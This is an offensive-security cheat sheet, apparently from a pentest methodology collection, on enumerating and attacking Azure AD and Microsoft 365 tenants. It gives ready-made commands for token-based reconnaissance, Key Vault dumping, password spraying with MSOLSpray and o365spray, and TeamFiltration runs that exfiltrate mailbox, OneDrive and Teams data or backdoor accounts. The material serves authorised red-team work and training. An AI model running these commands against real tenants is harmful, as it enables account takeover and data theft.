 # Azure AD - Enumerate

## Azure AD - Collectors

* [**Microsoft Portals**](https://msportals.io/) - Microsoft Administrator Sites
* [**ROADTool**](https://github.com/dirkjanm/ROADtools) - A collection of Azure AD tools for offensive and defensive security purposes 
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    roadrecon gui
    ```
* [**BloodHoundAD/AzureHound**](https://github.com/BloodHoundAD/AzureHound) - Azure Data Exporter for BloodHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ./azurehound -u "<username>@contoso.onmicrosoft.com" -p "<password>" list groups --tenant "<tenant>.onmicrosoft.com"
    ./azurehound -j "<jwt>" list users --tenant "<tenant>.onmicrosoft.com"
    ```
* [**BloodHoundAD/BARK**](https://github.com/BloodHoundAD/BARK) - BloodHound Attack Research Kit
    ```ps1
    . .\BARK.ps1
    $MyRefreshTokenRequest = Get-AZRefreshTokenWithUsernamePassword -username "user@contoso.onmicrosoft.com" -password "MyVeryCoolPassword" -TenantID "contoso.onmicrosoft.com"
    $MyMSGraphToken = Get-MSGraphTokenWithRefreshToken -RefreshToken $MyRefreshTokenRequest.refresh_token -TenantID "contoso.onmicrosoft.com"
    $MyAADUsers = Get-AllAzureADUsers -Token $MyMSGraphToken.access_token -ShowProgress
    ```
* [**dafthack/GraphRunner**](https://github.com/dafthack/GraphRunner) - A Post-exploitation Toolset for Interacting with the Microsoft Graph API
    ```ps1
    Invoke-GraphRecon -Tokens $tokens -PermissionEnum
    Invoke-DumpCAPS -Tokens $tokens -ResolveGuids
    Invoke-DumpApps -Tokens $tokens
    Get-DynamicGroups -Tokens $tokens
    ```
* [**NetSPI/MicroBurst**](https://github.com/NetSPI/MicroBurst) - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping
    ```powershell
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```
* [**hausec/PowerZure**](https://github.com/hausec/PowerZure) - PowerShell framework to assess Azure security
    ```powershell
    Import-Module .\Powerzure.psd1
    Set-Subscription -Id [idgoeshere]
    Get-AzureTarget
    Get-AzureInTuneScript
    Show-AzureKeyVaultContent -All
    ```
* [**silverhack/monkey365**](https://github.com/silverhack/monkey365) - Microsoft 365, Azure subscriptions and Microsoft Entra ID security configuration reviews.
    ```powershell
    Get-ChildItem -Recurse c:\monkey365 | Unblock-File
    Import-Module C:\temp\monkey365
    Get-Help Invoke-Monkey365
    Get-Help Invoke-Monkey365 -Examples
    Get-Help Invoke-Monkey365 -Detailed
    ```
* [**Flangvik/TeamFiltration**](https://github.com/Flangvik/TeamFiltration) - TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts
    ```ps1
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --backdoor
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --database
    ```
* [**Azure/StormSpotter**](https://github.com/Azure/Stormspotter) - :warning: This repository has not been updated recently - Azure Red Team tool for graphing Azure and Azure Active Directory objects
* [**nccgroup/Azucar**](https://github.com/nccgroup/azucar.git) - :warning: This repository has been archived - Azucar automatically gathers a variety of configuration data and analyses all data relating to a particular subscription in order to determine security risks.
* [**FSecureLABS/Azurite Explorer**](https://github.com/FSecureLABS/Azurite) - :warning: This repository has not been updated recently - Enumeration and reconnaissance activities in the Microsoft Azure Cloud.
* [**cyberark/SkyArk**](https://github.com/cyberark/SkyArk) - :warning: This repository has not been updated recently - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   


## Azure AD - User Enumeration

### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    Get-AADIntLoginInformation -UserName <USER>@<TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate from a Guest Account

```ps1
powerpwn recon --tenant {tenantId} --cache-path {path}
powerpwn dump -tenant {tenantId} --cache-path {path}
powerpwn gui --cache-path {path}
```


### Enumerate Emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon
    ```powershell
    Install-Module MSOnline
    Install-Module AzureAD
    .\o365recon.ps1 -azure
    ```


### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

* [dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)
    ```powershell
    PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
    PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
    PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
    PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
    ```
* [0xZDH/o365spray](https://github.com/0xZDH/o365spray)
    ```powershell
    o365spray --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
    ```
* [Flangvik/TeamFiltration](https://github.com/Flangvik/TeamFiltration) 
    ```powershell
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
    ```

## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -DomainName <DOMAIN>
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```


### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate Services

* Using Az Powershell module
    ```powershell
    # Enumerate resources
    PS Az> Get-AzResource

    # List all VM's the user has access to
    PS Az> Get-AzVM 

    # Get all webapps
    PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}

    # Get all function apps
    PS Az> Get-AzFunctionApp

    # List all storage accounts
    PS Az> Get-AzStorageAccount

    # List all keyvaults
    PS Az> Get-AzKeyVault

    # Get all application objects registered using the current tenant
    PS AzureAD> Get-AzureADApplication -All $true

    # Enumerate role assignments
    PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>
    PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com

    # Check AppID Alternative Names/Display Name 
    PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl
    ```

* Using az cli
    ```powershell
    PS> az vm list
    PS> az vm list --query "[].[name]" -o table
    PS> az webapp list
    PS> az functionapp list --query "[].[name]" -o table
    PS> az storage account list
    PS> az keyvault list
    ```


## Multi Factor Authentication

* [dafthack/MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services
```ps1
Import-Module .\MFASweep.ps1
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020 -Recon -IncludeADFS
```


## References

* [Bypassing conditional access by faking device compliance - @DrAzureAD - September 06, 2020](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)
* [Attacking Azure/Azure AD and introducing Powerzure - SpecterOps - Ryan Hausknecht - Jan 28, 2020](https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)